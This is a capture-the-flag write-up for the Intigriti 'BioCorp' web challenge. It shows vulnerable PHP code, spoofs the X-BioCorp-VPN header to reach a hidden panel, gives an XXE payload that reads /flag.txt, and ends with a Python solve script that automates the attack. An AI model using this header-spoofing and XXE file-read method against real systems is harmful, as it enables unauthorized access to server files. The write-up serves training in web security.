




# BioCorp

## Video Walkthrough

[](https://youtu.be/hyi_JZvXOTU "X-Forwarded-For Header Spoofing and XXE")

## Challenge Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

## Solution

Players will find a basic website, without much functionality.





The challenge includes source code, so let's check it. One thing that stands out immediately is a hidden control panel, only accessible when using a VPN-related header and IP.



```php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];
if ($ip_address === '80.187.61.102') {
    echo '<li><a href="panel.php">Control Panel</a></li>';
}
```



We can use the match and replace function in burp to insert the header in all of our requests, or we could use a curl command.



Now we can access the panel.



So, what does the panel do? It displays the XML data from the nuclear equipment. However, it also accepts data via a POST request.



```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```



Classic [XXE](https://portswigger.net/web-security/xxe) vulnerability, we can send something like this to receive the flag.



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
```



Alternatively, automated the whole process into a solve script.

### solve.py



```python
import requests

# Target URL and headers
url = "https://biocorp.ctf.intigriti.io/panel.php"
headers = {
    "X-BioCorp-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}

# XML payload with XXE injection
data = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
"""

# Send the request
response = requests.post(url, headers=headers, data=data)

# Check the response
if response.status_code == 200:
    print("Response received:")
    print(response.text)
else:
    print(f"Request failed with status code {response.status_code}")
```



Flag: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
